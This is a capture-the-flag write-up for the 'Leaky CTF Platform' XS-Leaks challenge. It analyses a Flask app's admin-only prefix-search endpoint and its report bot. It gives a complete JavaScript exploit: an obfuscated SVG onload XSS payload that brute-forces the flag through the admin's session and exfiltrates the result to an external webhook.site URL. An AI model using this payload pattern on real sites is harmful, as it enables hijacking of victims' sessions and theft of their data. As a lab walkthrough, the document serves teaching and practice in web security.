


# Leaky CTF Platform

Yet another XS-Leaks challenge! Inspired by an unintended solution from a challenge that I almost solved. (The first XS-Leaks web challenge in Hong Kong?)

\> Note: The intended solution might be a little bit unstable. Please try to run your exploit multiple times if you cannot get the flag at the first time.

Author: siunam

Flag Format: `PUCTF26{[a-zA-Z0-9_]+_[a-fA-F0-9]{32}}`

---

First , we unzip leaky_ctf_platform.zip and we can get:

```tree
│  compose.yaml
│  Dockerfile
│  requirements.txt
│
└─app
    │  bot.py
    │  config.py
    │  turnstile.py
    │  __init__.py
    │
    └─templates
            index.html
            report.html
```

### Source Code Analysis:

The application consists of several Python files:

app/__init__.py: Main Flask application with routes  
app/bot.py: Admin bot that visits reported URLs  
app/config.py: Configuration settings  
app/turnstile.py: Cloudflare Turnstile validation (not relevant to the exploit)

### Key Routes and Functionality

1. Search Fuction (/search):

   ```python
   @app.route('/search')
   def search():
       if request.cookies.get('admin_secret', '') != config.ADMIN_SECRET:
           return 'Access denied. Only admin can access this endpoint.', 403

       flag = request.args.get('flag', '')
       if not flag:
           return 'Invalid flag', 400

       foundFlag = any(f for f in flags if f.startswith(flag))
       if not foundFlag:
           return f'"{flag}" not found in our key-value store.', 200

       return f'"{flag}" found in our key-value store.', 200
   ```

   This checks if the provided flag prefix matches any flag in the database. It requires an admin cookie for access and returns different messages based on whether a match is found.

2. Flag Submission Function(/submit\_flag):

   ```python
   @app.route('/submit_flag')
   @limiter.limit('2 per minute')
   def submitFlag():
       flag = request.args.get('flag', '')
       if not flag:
           return 'Please give me a flag', 400
       if not flag.startswith(config.CORRECT_FLAG_PREFIX):
           return 'Incorrect flag format', 400
       if len(flag) != len(config.CORRECT_FLAG):
           return 'Incorrect flag length', 400
       if flag != config.CORRECT_FLAG:
           return 'Incorrect flag', 400
       
       return f'Correct! The real flag is: {config.REAL_FLAG}', 200
   ```

   It verifies if the submitted flag is correct and returns the real flag if it is.

3. Report Function (/report):

   ```python
   @app.route('/report', methods=['POST'])
   @limiter.limit('2 per minute')
   def report():
       # ...
       url = request.form.get('url', '')
       # URL validation...
       
       isBotVisitedSuccessfully = asyncio.run(bot.visitUrl(parsedUrl.geturl()))
       # ...
   ```

   This allows users to submit URLs that will be visited by an admin bot.

4. Flag Generation

   ```python
   CORRECT_FLAG_PREFIX = 'leakyctf'
   SIMUATION_FLAG_PREFIX = 'flag'
   RANDOM_HEX_LENGTH = 4
   CORRECT_FLAG = f'{CORRECT_FLAG_PREFIX}{{{secrets.token_hex(RANDOM_HEX_LENGTH)}}}'
   ```

   The flag follows the format leakyctf{random\_hex} where random\_hex is 8 characters long (4 bytes of hex).

### The Vulnerabilities

Information Leakage: The /search endpoint leaks information by returning different responses based on whether a flag prefix matches.  
XSS via Report Feature: The admin bot visits user-submitted URLs without properly sanitizing content, allowing injection of JavaScript through SVG tags.  
Side-Channel Oracle: By combining these vulnerabilities, we can create an oracle that reveals whether a character guess is correct, allowing us to extract the flag character by character.

### Exploit:

```Router
const WEBHOOK = 'https://webhook.site/ee472491-7241-40cc-aff4-25bd0afad36c';

const js = `(async()=>{
  let log=[];
  let f='leakyctf{';
  let c='0123456789abcdef';
  for(let i=0;i<8;i++){
    let found=false;
    let j=0;
    while(j<c.length){
      let x=c[j];
      let r=await fetch('/search?flag='+encodeURIComponent(f+x));
      let t=await r.text();
      let hit=!t.includes('not found');
      log.push('i'+i+'j'+j+'x'+x+'hit'+hit);
      if(hit){
        f+=x;
        found=true;
        j=c.length;
      }
      j++;
    }
    if(!found){
      log.push('STUCK at '+i);
      i=99;
    }
  }
  f+='}';
  log.push('final:'+f);
  let r2=await fetch('/submit_flag?flag='+encodeURIComponent(f));
  let t2=await r2.text();
  log.push('submit:'+t2);
  fetch('${WEBHOOK}/?flag='+encodeURIComponent(f)+'&log='+encodeURIComponent(JSON.stringify(log)));
})();`.replace(/\n/g,'');

const codes = [...js].map(c => c.charCodeAt(0)).join(',');
const svgPayload = `<svg onload="eval(String.fromCharCode(${codes}))">`;
const reportUrl = `http://localhost:5000/search?flag=${encodeURIComponent(svgPayload)}`;
console.log(reportUrl);
```

This script:  
Uses the admin's session to access the protected /search endpoint,iteratively tries hex characters (0-9, a-f) for each position in the flag,determines correct characters by checking if the response contains "not found", builds the flag character by character and submits the completed flag and exfiltrates the data to our webhook.

We encode our JavaScript as character codes and embed it in an SVG onload attribute. This technique helps bypass potential filtering and makes the payload more compact.

This URL is then submitted to the /report endpoint, which the admin bot will visit.

### Exploitation Process:

When executed, the attack proceeds as follows:

1. The admin bot visits our URL containing the SVG payload
2. The browser renders the SVG, triggering our JavaScript
3. Our script begins brute-forcing the flag character by character
4. For each position:

   - It tries every hexadecimal character (0-9, a-f)
   - It makes a request to /search?flag= with our current guess
   - If the response doesn't contain "not found", we've found the correct character
5. It builds the complete flag: leakyctf{fe5873a0}
6. It submits the flag to verify it's correct
7. It exfiltrates the flag and logs to our webhook

### Results:





The attack logs show the progression of the brute-force process and we can get : `PUCTF26{Another_XS_Leaks_Timing_Oracle_Thanks_bliutech_from_LA_CTF_2026_CMyMxI4z6SUFCGwY1zALKZQxGTeeLqk2}`

‍
